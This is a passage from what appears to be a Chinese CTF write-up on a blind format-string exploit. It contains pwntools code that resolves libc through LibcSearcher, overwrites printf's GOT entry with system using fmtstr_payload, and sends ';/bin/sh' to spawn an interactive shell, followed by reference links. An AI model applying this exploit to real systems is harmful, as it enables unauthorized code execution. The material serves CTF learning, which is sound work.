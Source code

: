```python

#step 2 find the libc
libc = LibcSearcher('printf',libc_printf)
libcbase = libc_printf - libc.dump('printf')
system_addr = libcbase + libc.dump('system')

#step 3 cover the address
payload_cover = 'x' + fmtstr_payload(8,{printf_got : system_addr},numbwritten=10)
io.sendline(payload_cover)
io.recv()

#step 4 get shell
io.sendline(";/bin/sh")

io.interactive()
```



## 参考链接

- [陌小生]( https://www.xmsec.cc/format-string-leak-binary-blind-pwn/ )

- [默小西](  http://momomoxiaoxi.com/2017/12/26/Blindfmtstr/   )

- [ctf-wiki]( https://ctf-wiki.github.io/ctf-wiki/pwn/linux/fmtstr/fmtstr_example-zh/#1- )

  